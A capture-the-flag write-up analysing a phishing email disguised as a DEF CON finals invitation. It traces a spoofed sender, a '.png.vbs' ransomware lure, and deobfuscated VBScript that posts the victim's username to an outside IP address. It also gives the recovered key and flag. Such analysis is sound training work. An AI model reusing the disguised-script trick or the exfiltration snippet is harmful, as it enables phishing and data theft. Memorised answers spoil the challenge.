

### DEF CON Invitation
As you all know, DEF CON CTF Qualifier 2023 was really competitive and we didn't make it. 
Surprisingly, 2 months before the finals in Las Vegas, we received an official invitation from Nautilus Institute to 
attend the event. Should we accept the invitation and schedule the trip?
Auther: sahuang

---
[Given file](DEFCON_Finals_Invitation.eml)

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
[pls.vbs](pls.vbs) (named pls because I was asking nicely for it to work)

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
```
https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed
```

```
Dim http:
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"
With http
    Call .Open("POST", url, False)
    Call .SetRequestHeader("Content-Type", "application/json")
    Call .Send("{""username"":""" & strUser & """}")
End With
res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
```

The second one is a link to download a file named [defcon-flag.png.XORed](defcon-flag.png.XORed) which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.

If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

For reference, my final cyberchef recipe was https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'30%2032%2033%2039%2038%2034%2038%2032%2061%2065%2062%2037%2064%2039%2066%2065%2039%2038%2062%2066%2037%2064%2063%2037%2063%2063%205f%2049%2054%2044%2057%2057%2047%204d%2046%204e%2059'%7D,'Standard',false)Render_Image('Raw')Flip_Image('Vertical')Flip_Image('Horizontal')

